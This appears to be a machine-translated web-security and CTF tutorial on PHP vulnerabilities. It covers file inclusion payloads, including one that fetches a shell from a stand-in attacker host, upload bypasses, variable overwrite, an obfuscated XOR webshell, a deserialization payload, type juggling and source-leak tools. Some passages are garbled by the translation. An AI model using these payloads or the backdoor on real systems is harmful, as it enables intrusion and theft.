


PHP
File contains
Common functions that cause files to be included are:
- PHP：
include()，include_once()，require()，require_once()，fopen()，readfile() - JSP Servlet ：
ava.io.File ()，java.io.FileReader () - ASP：
includefile，includevirtual
When PHP includes a file, it will be executed as PHP code, regardless of the type of file.
A local file contains
The local file contains, Local File Inclusion, LFI.
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
include '/home/wwwrun/'.$file.'.php';
}
?>
The above code has a local file containing, and the contents of the /etc/passwd file can be read by truncating %00.
-
%00truncation```text ?file=../../../../../../../../../etc/passwd%00 ``` Requires `magic_quotes_gpc=off`, PHP is less than 5.3.4. -
Path length truncation
```text ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././. ``` Linux requires a file name longer than 4096 and Windows needs to be longer than 256. -
Point number truncation
```text ?file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] ………… ``` For Windows only, the dot number needs to be longer than 256.
Remote file contains
The remote file contains, Remote File Inclusion, RFI.
<?php
if ($route == "share") {
require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
require_once $basePath . "/action/m_sharelink.php";
}
?>
Constructs the value of the variable basePath.
/?basePath=http://attacker/phpshell.txt?
The final code is executed
require_once "http://attacker/phpshell.txt?/action/m_share.php";
The part after the question mark is interpreted as the querystring of the URL, which is also a kind of "truncation".
-
Normal remote file contains
```text ?file=[http|https|ftp]://example.com/shell.txt ``` Need `allow_url_fopen=On` and `allow_url_include=On`. -
Utilize PHP stream input
``` ?file=php://input ``` Need `allow_url_include=On`. -
Utilize PHP stream filter
``` ?file=php://filter/convert.base64-encode/resource=index.php ``` Need `allow_url_include=On`. -
Use data URIs
``` ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo= ``` Need `allow_url_include=On`. -
Execute with XSS
``` ?file=http://127.0.0.1/path/xss.php?xss=phpcode ``` Need `allow_url_fopen=On`, `allow_url_include=On` and the firewall or whitelist is not allowed to access the external network, first find an XSS vulnerability in the same site, including this page, you can inject malicious code.
File Upload
A file upload vulnerability is when a user uploads an executable script file and obtains the ability to execute server-side commands through this file. In most cases, file upload vulnerabilities generally refer to the problem of uploading a web script that can be parsed by the server, a so-called webshell issue. To complete this attack, several conditions are required. First, the uploaded file can be executed by the WEB container. Secondly, the user can access the file from the WEB. Finally, if the uploaded file is changed by security check, formatting, image compression, etc. Content may cause the attack to fail.
Bypassing the upload check
-
Front end check extension
Capture the package and bypass it. -
Content-Typedetection file typeCapture the package to modify the `Content-Type` type to match the whitelist rules. -
Add a suffix to the server
Try `%00` truncation. -
Server extension detection
Exploit the vulnerability. -
Apache parsing
`phpshell.php.rar.rar.rar.rar` Because Apache does not know `.rar` this file type, so it will traverse the suffix to `.php`, and then think this is a PHP file. -
IIS parsing
When the file name is `abc.asp;xx.jpg` under IIS 6, it will be parsed as `abc.asp`. -
PHP CGI path resolution
When you visit `http://www.a.com/path/test.jpg/notexist.php`, `test.jpg` will be parsed as PHP, and `notexist.php` is a non-existent file. At this point, the configuration of Nginx is as follows ```nginx location ~ \.php$ { root html; fastcgi_pass 127.0.0.1:9000; fastcgi_index index.php; fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name; include fastcgi_param; } ``` -
other methods
The suffix case, double write, special suffix such as `php5`, etc., modify the content of the package to the WAF and so on.
Variable coverage
Global Variable Override
Variables that are not initialized and can be controlled by the user are likely to cause security problems.
register_globals = ON
Example
<?php
echo "Register_globals" . (int)ini_get("register_globals") . "<br/>";
if ($auth) {
echo "private!";
}
?>
When register_globals=ON, submit test.php?auth=1, the auth variable will be automatically assigned.
extract() variable override
The extract() function can import variables from an array into the current symbol table, which is defined as
int extract(array $var_array [, int $extract_type [, string $prefix ]] )
The second parameter specifies the behavior of the function when it is imported into the symbol table. The two most
common values are EXTR_OVERWRITE and EXTR_SKIP.
When the value is EXTR_OVERWRITE, in the process of importing variables into the symbol table, if the variable name
conflicts, all variables are overwritten; the value of EXTR_SKIP means skipping without overwriting. If the second
parameter is not specified, EXTR_OVERWRITE is used by default.
<?php
$auth = "0";
extract($_GET);
if ($auth == 1) {
echo "private!";
} else {
echo "public!";
}
?>
Variable coverage can occur when the extract() function exports variables from an array that the user can control.
import_request_variables Variable Override
bool import_request_variables(string $types [, string $prefix])
import_request_variables Imports variables from GET, POST, and Cookies into the global. Use this function to simply
specify the type.
<?php
$auth = "0";
import_request_variables("G");
if ($auth == 1) {
echo "private!";
} else {
echo "public!";
}
?>
import_request_variables("G") specifies the variables to be imported into the GET request, and submits the test
coverage of test.php?auth=1.
parse_str() variable override
void parse_str(string $str [, array &$arr ])
The parse_str() function is usually used to parse the querystring in a URL, but when the parameter value can be
controlled by the user, it is likely to cause variable coverage.
//var.php?var=new variable override
$var = "init";
parse_str($_SERVER["QUERY_STRING"]);
print $var;
Functions similar to parse_str() also have mb_parse_str().
Command Execution
Direct execution code
There are quite a few functions in PHP that can execute code directly.
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......
preg_replace() Code Execution
The first argument to preg_replace() allows code execution if the /e mode modifier is present.
<?php
$var = "<tag>phpinfo()</tag>";
preg_replace("/<tag>(.*?)</tag>/e", "addslashes(1)", $var);
?>
If you don't have the /e modifier, you can try %00 truncation.
preg_match Code Execution
preg_match performs a matching regular expression, allowing the code to execute if the match is successful.
<?php
include 'flag.php';
if(isset($_GET['code'])){
$code = $_GET['code'];
if(strlen($code)>40){
die("Long.");
}
if(preg_match("/[A-Za-z0-9]+/", $code)){
die("NO.");
}
@eval($code);
}else{
highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?>
This question is a question from the plum wine master when the xman training session. This series of code descriptions
is like this. We want to bypass the passing of regular numbers and alphabetic strings such as AZ, az, 0-9, and
convert non-alphanumeric characters into various transformations. Can construct any character in az, and the string
length is less than 40. Then use PHP to allow dynamic function execution features, stitch out a function name, here
we are getFlag, and then dynamically execute the code.
So, the question we need to consider is how to pass various transformations so that we can successfully read the
getFlag function and get the webshell.
Before we understand this, we first need to understand the concept of XOR ^ in PHP.
Let's take a look at the following code:
<?php
echo "A" ^ "?";
?>

We can see that the output is the character ~. The reason for this is because the code A and the character ? are
XORed in the code. In PHP, when two variables are XORed, the string is first converted to an ASCII value, then the
ASCII value is converted to binary and then XORed, XOR is completed, and the result is converted from binary. Become
an ASCII value and convert the ASCII value to a string. XOR operations are also sometimes used to exchange the
values of two variables.
Like the example above
The ASCII value of A is 65 and the corresponding binary value is 01000001.
The ASCII value of ? is 63 and the corresponding binary value is 00111111.
The value of the exclusive OR binary is 01111110, the corresponding ASCII value is 126, and the corresponding
string value is ~.
We all know that PHP is a weakly typed language, that is, in PHP we can declare a variable directly and initialize
or assign it without declaring the type of the variable. It is precisely because of the PHP weak type that we
implicitly convert the variable type of PHP and use this feature to perform some unconventional operations. If you
convert an integer to a string, treat a boolean as an integer, or treat a string as a function, let's look at a piece of
code:
<?php
function B(){
echo "Hello Angel_Kitty";
}
$_++;
$__= "?" ^ "}";
$__();
?>

Let's analyze the above code together:
$_++;This line of code means to increment the variable named"_", the default value of the variable undefined inPHPnull,null== False==0, we can get a number by auto-incrementing the undefined variable without using any numbers.$__= "?" ^ "}";XOR the characters?and}, and get the resultBassigned to the variable named__(two underscores)$__();Through the above assignment operation, the value of the variable$__isB, so this line can be regarded asB(). InPHP, this line of code represents The functionBis called, so the result isHello Angel_Kitty. InPHP, we can treat strings as functions.
Seeing this, I believe that if you see a similar PHP backdoor, you should not be so confused. You can use the sentence
analysis of the backdoor code to understand the functions that the backdoor wants to achieve.
We want to use this backdoor to create strings that bypass the detection and are useful to us, such as _POST,
system , call_user_func_array, or whatever we need.
Here is a very simple non-alphanumeric PHP backdoor:
<?php
@$_++; // $_ = 1
$__ = ("#" ^ "|"); // $__ = _
$__ .= ("." ^ "~"); // _P
$__ .= ("/" ^ "`"); // _PO
$__ .= ("|" ^ "/"); // _POS
$__ .= ("{" ^ "/"); // _POST
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
Here I explain, .= is a string connection, see PHP syntax for details.
We can even merge the above code into one line, making the program less readable, the code is as follows:
$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/");
Looking back at the question of the xman training, our idea is to bypass the string of characters by constructing XOR,
so how do we construct this string so that the length is less than 40?
We finally want to read the getFlag function, we need to construct a _GET to read this function, we finally
construct the following string:

It may be that many small partners still can't understand how this string is constructed. Let's analyze the segment string.
Construct _GET read
First we have to know what X_GET is from XOR. After my attempts and analysis, I came to the following
conclusion:
<?php
echo "`{{{" ^ "?<>/"; //_GET
?>
What is the meaning of this code? Because of the 40-character length limit, webshells that were previously
XOR-to-character-spliced cannot be used. Here you can use the backquotes ` and Linux under the php to
execute the command ?
?means matching one character`indicates execution of the command`Parsing a special string
Since ? can only match one character, this way of writing means looping and matching. We will break it down to see:
<?php
echo "{" ^ "<";
?>

<?php
echo "{" ^ ">";
?>

<?php
echo "{" ^ "/";
?>

So we can know that _GET is constructed like this!
Get the _GET parameter
How do we get the _GET parameter? We can construct the following string:
<?php
echo ${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
?>
According to the previous construction, $_ has become _GET. Naturally, $_ = _GET. We built $_GET[__] to get the
parameter values.
Incoming parameters
At this point we just need to call the getFlag function to get the webshell just fine, constructed as follows:
<?php
echo $_ = getFlag; //getFlag
?>
So connect all the parameters and you're done.
The results are as follows:

So we successfully read the flag!
Dynamic function execution
User-defined functions can lead to code execution.
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
Backquote command execution
<?php
echo `ls -la`;
?>
Curly Syntax
PHP's Curly Syntax can also lead to code execution, it will execute the code between the curly braces and replace the results.
<?php
$var = "aaabbbccc${`ls`}";
?>
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
Callback
Many functions can execute callback functions, which will cause code execution when the callback function is controllable by the user.
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
Attack payload
http://www.a.com/index.php?callback=phpinfo
Deserialization
If unserialize() defines a __destruct() or __wakeup() function at execution time, it may cause code execution.
<?php
class Example {
was $var = "";
function __destruct() {
eval($this->var);
}
}
unserialize($_GET["saved_code"]);
?>
Attack payload
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
PHP Features
Array
<?php
$var = 1;
$var = array();
$var = "string";
?>
Php does not strictly check incoming variable types, nor can it convert types freely.
For example, in the comparison of $a == $b
$a = null;
$b = false; // is true
$a = '';
$b = 0; //also true
However, the developers of the PHP kernel originally wanted to let programmers develop more efficiently with this system that does not require declarations, so many loosely used comparisons and transformations were used in almost all built-in functions and basic structures to prevent programs from being used. The variables are frequently reported incorrectly because of the programmer's irregularity, but this brings security problems.
0 == '0' //true
0 == 'abcdefg' //true
0 === 'abcdefg' //false
1 == '1abcdef' //true
Magic Hash
"0e132456789" == "0e7124511451155" //true
"0e123456abc" == "0e1dddada" //false
"0e1abc" == "0" //true
When a comparison operation is performed, if a string such as 0e\d+ is encountered, the string is parsed into
scientific notation. So the values of the two numbers in the above example are all 0 and thus equal. If the pattern of
0e\d+ is not satisfied, it will not be equal.
Hex conversion
"0x1e240" == "123456" //true
"0x1e240" == 123456 //true
"0x1e240" == "1e240" //false
When one of the strings starts with 0x, PHP parses the string into decimal and then compares it. 0x1240 parsing into
decimal is 123456, so with the int type and the string type of 123456 The comparisons are all equal.
Type conversion
The common conversions are mainly int converted to string, string converted to int.
int turn string
$var = 5;
Method 1: $item = (string)$var;
Method 2: $item = strval($var);
string turns int:intval() function.
For this function, you can look at 2 examples first.
var_dump(intval('2')) // 2
var_dump(intval('3abcd')) // 3
var_dump(intval('abcd')) // 0
When the intval() conversion is specified, it will be converted from the beginning of the string to know that a
non-numeric character has been encountered. Even if there is a string that cannot be converted, intval() will not
report an error but return 0.
At the same time, programmers should not use the following code when programming:
if(intval($a)>1000) {
mysql_query("select * from news where id=".$a)
}
At this time, the value of $a may be 1002 union.
Looseness of parameters of built-in functions
The looseness of the built-in function is that when the function is called, the function is passed to the function type that the function cannot accept. Explain a bit of a mouthful, or directly through the actual examples to illustrate the problem, the following will focus on a few of these functions.
md5()
$array1[] = array(
"foo" => "bar",
"bar" => "foo",
);
$array2 = array("foo", "bar", "hello", "world");
var_dump(md5($array1) == md5($array2)); //threaten
The description of the md5() function in the PHP manual is string md5(string $str [, bool $raw_output = false ]), and
the requirement in md5() is a string type parameter. But when you pass an array, md5() will not report an error, but
will not be able to correctly find the md5 value of the array, which will cause the md5 values of any 2 arrays to be
equal.
strcmp()
The strcmp() function is described in the official PHP manual as intstrcmp(string $str1 , string $str2), which needs
to pass 2 arguments of type string to strcmp(). If str1 is less than str2, it returns -1, and equality returns
0, otherwise it returns 1. The essence of the strcmp() function to compare strings is to convert two variables to
ASCII, then perform the subtraction, and then determine the return value based on the result of the operation.
What if the argument that gives strcmp() is a number?
$array = [1,2,3];
var_dump(strcmp($array, '123')); //null, in a sense null is equivalent to false.
switch()
If switch() is a case of a numeric type, switch will convert the parameters to an int. as follows:
$i = "2abc";
switch($i) {
case 0:
case 1:
case 2:
echo "i is less than 3 but not negative";
break;
case 3:
echo "i is 3";
}
At this time, the program outputs i is less than 3 but not negative because the switch() function converts $i and
the result is 2.
in_array()
In the PHP manual, the in_array() function is interpreted as
bool in_array(mixed $needle , array $haystack [, bool $strict = FALSE ]) . If the strict parameter is not provided,
then in_array will be loose. Compare to see if $needle is in $haystack. When the value of strict is true,
in_array() compares the type of needls with the type in haystack.
$array = [0, 1, 2, '3'];
var_dump(in_array('abc', $array)); //true
var_dump(in_array('1bc', $array)); //true
You can see that the above case returns true, because 'abc' will be converted to 0, and '1bc' will be converted to
1.
array_search() is the same as in_array().
Looking for source code backup
hg Source code leak
hg files are generated when hg init.
Git Source leaks
The .git directory contains files such as code change records. If the files in this directory are accessible when
deployed, they may be used to restore the source code.
/.git
/.git/HEAD
/.git/index
/.git/config
/.git/description
python GitHack.py http://www.openssl.org/.git/
GitHacker (Recoverable Full Git Repository)
python GitHacker.py http://www.openssl.org/.git/
.DS_Store File leaked
Mac OS will contain a .DS_Store file containing information such as the file name.
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store
hd.zj.qq.com/
└── themes
└── galaxyw
├── app
│ └── css
│ └── style.min.css
├── cityData.min.js
├── images
│ └── img
│ ├── bg-hd.png
│ ├── bg-item-activity.png
│ ├── bg-masker-pop.png
│ ├── btn-bm.png
│ ├── btn-login-qq.png
│ ├── btn-login-wx.png
│ ├── ico-add-pic.png
│ ├── ico-address.png
│ ├── ico-bm.png
│ ├── ico-duration-time.png
│ ├── ico-pop-close.png
│ ├── ico-right-top-delete.png
│ ├── page-login-hd.png
│ ├── pic-masker.png
│ └── ticket-selected.png
└── member
├── assets
│ ├── css
│ │ ├── ace-reset.css
│ │ └── antd.css
│ └── lib
│ ├── cityData.min.js
│ └── ueditor
│ ├── index.html
│ ├── lang
│ │ └── zh-cn
│ │ ├── images
│ │ │ ├── copy.png
│ │ │ ├── localimage.png
│ │ │ ├── music.png
│ │ │ └── upload.png
│ │ └── zh-cn.js
│ ├── php
│ │ ├── action_crawler.php
│ │ ├── action_list.php
│ │ ├── action_upload.php
│ │ ├── config.json
│ │ ├── controller.php
│ │ └── Uploader.class.php
│ ├── ueditor.all.js
│ ├── ueditor.all.min.js
│ ├── ueditor.config.js
│ ├── ueditor.parse.js
│ └── ueditor.parse.min.js
└── static
├── css
│ └── page.css
├── img
│ ├── bg-table-title.png
│ ├── bg-tab-say.png
│ ├── ico-black-disabled.png
│ ├── ico-black-enabled.png
│ ├── ico-coorption-person.png
│ ├── ico-miss-person.png
│ ├── ico-mr-person.png
│ ├── ico-white-disabled.png
│ └── ico-white-enabled.png
└── scripts
├── js
└── lib
└── jquery.min.js
21 directories, 48 files
Website backup file
The administrator incorrectly placed the backup under the web directory after backing up the website file.
Common suffixes:
.rar
.zip
.7z
.tar
.tar.gz
.behind
.txt
SVN Leak
Sensitive documents:
/.svn
/.svn/wc.db
/.svn/entries
perl rip-svn.pl -v -u http://www.example.com/.svn/
WEB-INF / web.xml leaked
WEB-INF is a secure directory for Java web applications, and there are file mappings in web.xml.
WEB-INF mainly contains the following files or directories:
/WEB-INF/web.xml: Web application configuration file that describes the servlet and other application component configuration and naming rules./WEB-INF/classes/: Contains all the class files used by the site, including servlet class and non-servlet class, they cannot be included. In the jar file./WEB-INF/lib/: Stores various jar files required by the web application, and places jar files that are only required in this application, such as database driver jar files./WEB-INF/src/: source directory, each java file is placed according to the package name structure./WEB-INF/database.properties: Database configuration file.
By finding the web.xml file, inferring the path to the class file, and finally by directly classifying the file, the website source code is obtained by decompiling the class file. In general, the jsp engine is forbidden to access the WEB-INF directory by default. When Nginx works with Tomcat to balance load or cluster, the cause of the problem is actually very simple. Nginx will not consider configuring other type engines (Nginx is not a jsp engine). The security issue is introduced into its own security specification (so that the coupling is too high), modifying the Nginx configuration file to block access to the WEB-INF directory is fine:
Location ~ ^/WEB-INF/* { deny all; } # or return 404; or other!
CVS Leak
http://url/CVS/Root returns the root information
http://url/CVS/Entries returns the structure of all files
Retrieve source code
bk clone http://url/name dir